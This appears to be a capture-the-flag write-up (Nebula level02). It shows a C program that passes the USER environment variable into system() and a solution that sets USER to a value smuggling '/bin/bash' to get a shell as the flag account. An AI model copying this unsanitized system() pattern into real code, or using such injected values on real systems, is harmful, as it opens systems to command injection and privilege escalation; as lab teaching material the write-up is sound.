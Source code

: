 * Level02
  :PROPERTIES:
  :CUSTOM_ID: level02
  :END:
** Task
   :PROPERTIES:
   :CUSTOM_ID: task
   :END:

#+begin_quote
  There is a vulnerability in the below program that allows arbitrary
  programs to be executed, can you find it?
#+end_quote

#+begin_quote
  To do this level, log in as the level02 account with the password
  level02. Files for this level can be found in /home/flag02.
#+end_quote

#+begin_src C
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
#+end_src

** Solution
   :PROPERTIES:
   :CUSTOM_ID: solution
   :END:
The binary calls the =USER= enviroment variable. Changing this allows us
to exploit and get the flag.

#+begin_example
level02@nebula:/home/flag02$ export USER="user && /bin/bash && echo"
level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo user && /bin/bash && echo is cool")
user
#+end_example

#+begin_example
flag02@nebula:/home/flag02$ getflag
You have successfully executed getflag on a target account
#+end_example
